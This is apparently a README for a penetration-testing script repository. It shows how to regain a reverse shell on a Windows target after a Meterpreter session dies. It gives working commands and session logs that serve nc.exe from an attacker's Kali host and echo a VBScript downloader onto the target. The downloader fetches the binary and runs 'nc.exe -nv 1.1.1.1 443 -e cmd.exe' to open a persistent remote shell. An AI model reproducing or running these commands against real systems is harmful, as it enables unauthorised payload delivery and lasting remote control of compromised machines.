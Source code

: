 # WindowsMeterpreterSessionDied
Some exploits are unstable in nature and only allow for a very short shell command window. These scripts can help extend your remote shell session by quickly spawning a new reverse shell. 
This solution can be leveraged on any reverse shell that dies prematurely (Metepreter, NC, NCat etc) as the commands can be easily copied and pasted in a single action. 

Here is an example of a Metepreter Exploit with a short lived reverse shell:

~~~~
[*] Started reverse TCP handler on 10.11.0.60:4444 
[*] Transmitting intermediate stager for over-sized stage...(216 bytes)
[*] Sending stage (179267 bytes) to 1.1.1.2
[*] Meterpreter session 1 opened (1.1.1.2:4444 -> 1.1.1.1:1996) at 2018-03-02 17:06:07 -0700

meterpreter > shell
Process 2960 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>cd\usrs
cd\usrs
The system cannot find the path specified.

C:\WINDOWS\system32>cd \
cd \

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8123B-EF81

 Directory of C:\

12/24/2009  05:03 AM                 0 AUTOEXEC.BAT
12/24/2009  05:03 AM                 0 CONFIG.SYS
09/19/2011  08:26 AM    <DIR>          Documents and Settings
04/20/2016  08:25 PM    <DIR>          WINDOWS
12/24/2009  05:04 AM    <DIR>          wmpub
               2 File(s)              0 bytes
               3 Dir(s)   5,666,758,656 bytes free

C:\>cd 
[*] 1.1.1.1 - Meterpreter session 1 closed.  Reason: Died
~~~~

How do we spawn a new reverse shell and extend our command session?

This solution uses Netcat for Windows to create the second shell session.
You will need to have the nc.exe file stored in a folder on your Kali Linux machine and then you can create a simple python web server to serve it up:
`python -m SimpleHTTPServer 80`

~~~~
root@kali:~/Documents/WindowsPRIVZ# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
1.1.1.1 - - [03/Mar/2018 08:29:24] "GET /nc.exe HTTP/1.0" 200 -
~~~~

Next you will want to create your local netcat listener.  I like to use port 443 just in case there are some firewall rules at play on the target machine.
`nc -nlvp 443`

~~~~
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
~~~~

Finally, you will want to select the correct script for the target OS and doctor it to use the correct IP Address for your kali machine.
Edit lines 19 and 21 and replace 1.1.1.1 with the IP Address of your Kali Linux machine.

Now kick off a new short lived reverse shell and once you are at the command prompt copy and paste the entire script (all the lines at once) into the shell.

~~~~
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Transmitting intermediate stager for over-sized stage...(216 bytes)
[*] Sending stage (179267 bytes) to 1.1.1.2
[*] Meterpreter session 7 opened (1.1.1.1:4444 -> 1.1.1.2:1031) at 2018-03-03 09:17:07 -0700

meterpreter > shell
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>cd\Documents and Settings\All Users\Documents\
timeout 1
echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs
timeout 1
echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs
timeout 1
echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs
timeout 1
echo xHttp.Send >> dl.vbs
timeout 1
echo bStrm.type = 1 >> dl.vbs
timeout 1
echo bStrm.open >> dl.vbs
timeout 1
echo bStrm.write xHttp.responseBody >> dl.vbs
timeout 1
echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
timeout 1
dl.vbs "http://1.1.1.1/nc.exe" "c:\Documents and Settings\All Users\Documents\nc.exe"
timeout 1
nc.exe -nv 1.1.1.1 443 -e cmd.exe
cd\Documents and Settings\All Users\Documents\

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo xHttp.Send >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.type = 1 >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.open >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.write xHttp.responseBody >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>dl.vbs "http://1.1.1.1/nc.exe" "c:\Documents and Settings\All Users\Documents\nc.exe"

C:\Documents and Settings\All Users\Documents>timeout 1
ERROR: Input redirection is not supported, exiting the process immediately.

C:\Documents and Settings\All Users\Documents>nc.exe -nv 1.1.1.1 443 -e cmd.exe
nc.exe -nv 1.1.1.1 443 -e cmd.exe
(UNKNOWN) [1.1.1.1] 443 (?) open

[*] 1.1.1.2 - Meterpreter session 7 closed.  Reason: Die

~~~~

Although the Metepreter sessions has terminated or timed out, we still have our new remote session running in the background!

~~~~
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [1.1.1.1] from (UNKNOWN) [1.1.1.2] 1036
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.


C:\Documents and Settings\All Users\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 801B-EF81

 Directory of C:\Documents and Settings\All Users\Documents

03/03/2018  08:17 AM    <DIR>          .
03/03/2018  08:17 AM    <DIR>          ..
03/03/2018  08:17 AM               283 dl.vbs
12/24/2009  05:02 AM    <DIR>          My Music
03/03/2018  08:17 AM            38,616 nc.exe
               2 File(s)         38,899 bytes
               3 Dir(s)   5,666,869,248 bytes free

C:\Documents and Settings\All Users\Documents>
~~~~

